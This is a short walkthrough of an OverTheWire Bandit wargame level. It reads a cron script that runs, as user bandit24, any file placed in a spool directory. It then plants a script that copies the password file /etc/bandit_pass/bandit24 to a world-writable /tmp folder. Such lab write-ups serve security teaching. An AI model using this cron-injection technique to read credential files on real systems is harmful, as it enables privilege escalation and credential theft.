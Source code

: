 # Level 24:
Same as before :
```sh
cd /etc/cron.d/
cat /usr/bin/cronjob_bandit24.sh
```
We can now see the following :
```bash
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo || exit 1
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -rf ./$i
    fi
done
```
Let's make our script and inject it into ``/var/spool/bandit24/foo`` since the script is executed as bandit24
```sh
mkdir -p /tmp/bandit23/ && chmod 777 /tmp/bandit23 && cd /tmp/bandit23 #mkdir -p : no error if existing, make parent directories as needed

echo '#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/bandit23/pass' > bandit23.sh

chmod 777 bandit23.sh && cp bandit23.sh /var/spool/bandit24/foo
```
Now we wait for the script to execute, ``ls`` to see if the script did execute, and ``cat`` the content of the pass
